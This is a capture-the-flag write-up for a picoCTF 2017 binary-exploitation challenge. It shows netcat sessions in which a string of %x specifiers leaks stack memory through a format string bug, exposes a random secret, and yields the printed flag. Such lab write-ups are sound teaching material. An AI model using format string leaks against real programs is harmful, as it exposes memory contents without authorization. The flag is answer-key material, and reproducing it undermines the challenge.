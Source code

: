 # Ive Got A Secret
## level 2 - binary exploitation - 75 points

### Description
> Hopefully you can find the right format for my [secret](./data/secret)! [Source](./data/secret.c). Connect on shell2017.picoctf.com:42684.

### Hints
> * This is a beginning format string attack.


### Solution

As suggested this is a [format string attack](https://www.owasp.org/index.php/Format_string_attack). The vulnerability is in line 24, where the buffer is mistakely passed as format and not as value to replace.

Connect with `nc` and it will prompt us for some text:

```
$ nc shell2017.picoctf.com 42684
Give me something to say!
hello
hello
Now tell my secret in hex! Secret: hello
As my friend says,"You get nothing! You lose! Good day, Sir!"
```

We will prompt twice: the first time will be printed out with `printf`, the second one will check if the hex we sent is equal to a random value from `/dev/urandom`.

In the first request we can submit a format string to be printed out next with `printf`, so sending several `%x` il will print the stack, including the random variable assigned:

```
$ nc shell2017.picoctf.com 42684
Give me something to say!
%x %x %x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 7ea62dd6 3 f7fc73c4
Now tell my secret in hex! Secret:
```

Now we have the stack! To understand which hex is the correct one, just run the same string several times and check for changes, in our case in the sixth variable. Submit it and you will have the flag:

```
$ nc shell2017.picoctf.com 42684
Give me something to say!
%x %x %x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 1ead97b4 3 f7fc73c4
Now tell my secret in hex! Secret: 1ead97b4
65aaf5d76d7fa708642cf1ab573ebf58
Wow, you got it!
```

### Flag
```
65aaf5d76d7fa708642cf1ab573ebf58
```